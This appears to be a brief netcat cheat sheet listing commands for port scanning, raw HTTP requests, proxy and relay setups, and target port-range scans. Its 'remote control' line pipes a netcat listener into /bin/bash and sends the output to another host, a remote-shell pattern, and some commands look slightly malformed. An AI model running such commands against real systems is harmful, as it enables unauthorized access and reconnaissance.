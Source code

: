 # Netcat

PORT SCANNING
The -z flag can be used to tell nc to report open ports, rather than initiate a connection. Usually it's useful to turn on verbose output to stderr by use this option in conjunction with -v option.
```
$ nc -zv 192.168.0.1 1-1024 2>&1 | grep "succeeded"
```

TALKING TO SERVERS
```
echo "GET / HTTP/1.1\r\nHost: api.ipify.org\r\n\r\n" -n | nc -N api.ipify.org 80
```

REMOTE CONTROL
```
nc -l 5000 | /bin/bash 2>&1 | nc 192.168.0.39 5001
```

Proxy with logging
//mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
```
$ mknod backpipe p ; nc -l -p 1337 < backpipe | tee -a inflow | sudo nc 127.0.0.1 1338 | tee -a outflow 1> backpipe

$ mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe                                           # Port Relay
$ mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe      # Proxy (Port 80 to 8080)
$ mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```

Scan the target’s specified port range:
```
echo "" | nc -v -n -w1 <target> <port-range>
```